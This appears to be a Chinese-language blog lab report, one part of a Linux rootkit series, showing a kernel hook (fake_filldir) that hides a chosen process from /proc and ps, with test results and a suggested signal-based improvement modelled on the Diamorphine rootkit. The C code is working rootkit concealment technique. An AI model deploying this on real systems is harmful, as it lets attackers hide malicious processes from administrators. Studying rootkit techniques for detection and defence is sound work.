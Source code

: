 ```yaml
---
category: rootkit
title: Linux Rootkit 实验 | 00023 Rootkit 基本功能实现x隐藏进程
---
```


# {{ page.title }}

## 实验说明

本次实验将初步实现 rootkit 的基本功能：

- 阻止其他内核模块加载
- 提供 root 后门
- 隐藏文件
- 隐藏进程
- 隐藏端口
- 隐藏内核模块

本次实验基于 0001 实验中学习的挂钩技术。

注：由于本次实验内容过多，故分为`00020`到`00025`六个实验报告分别讲解。

**本节实现“隐藏进程”功能**

## 实验环境

```
uname -a:
Linux kali 4.6.0-kali1-amd64 #1 SMP Debian 4.6.4-1kali1 (2016-07-21) x86_64 GNU/Linux

GCC version:6.1.1
```

上述环境搭建于虚拟机，另外在没有特殊说明的情况下，均以 root 权限执行。

**注：后面实验参考的是4.10.10的源码**

## 实验过程

### 隐藏进程

“Linux 上纯用户态枚举并获取进程信息，/proc 是唯一的去处。所以，对用户态隐藏进程，我们可以隐藏掉/proc 下面的目录，这样用户态能枚举出来进程就在我们的控制下了。”

我们只需要把`fake_filldir`修改一下，改为匹配进程号即可：

{% highlight c %}
int
fake_filldir(struct dir_context *ctx, const char *name, int namlen,
             loff_t offset, u64 ino, unsigned d_type)
{
    char *endp;
    long pid;

    // 把字符串变成长整数。
    pid = simple_strtol(name, &endp, 10);

    if (pid == SECRET_PROC) {
        // 是我们需要隐藏的进程，直接返回。
        printk("Hiding pid: %ld", pid);
        return 0;
    }
    // 不是需要隐藏的进程，交给真的 ``filldir`` 填到缓冲区里。
    return real_filldir(ctx, name, namlen, offset, ino, d_type);
}
{% endhighlight %}

测试结果如下：

图片中一个 shell 的`PID`是`3033`。在没有加载模块之前，`ps`可以看到该进程。在加载模块之后，`ps`中无该进程：

![]({{ site.url }}/images/LinuxRootkits/linux-rkt-18.png)

卸载模块后，进程重新在`ps`中出现：

![]({{ site.url }}/images/LinuxRootkits/linux-rkt-19.png)

## 实验问题

【问题一】

本实验中，我们是把进程号写死在代码里，这样十分不方便。很明显，在实际渗透过程中，我们需要隐藏的进程的进程号只有在运行时才知道。一种可以借鉴的改进思路是：新设定一个信号，模块运行时，我们给哪个进程发该信号，那个进程就被隐藏起来。这是 [m0nad/Diamorphine](https://github.com/m0nad/Diamorphine) 这个 rootkit 的设计。未来我会写一篇文章专门分析这个 rootkit，它的其他思路也是很有意思的。
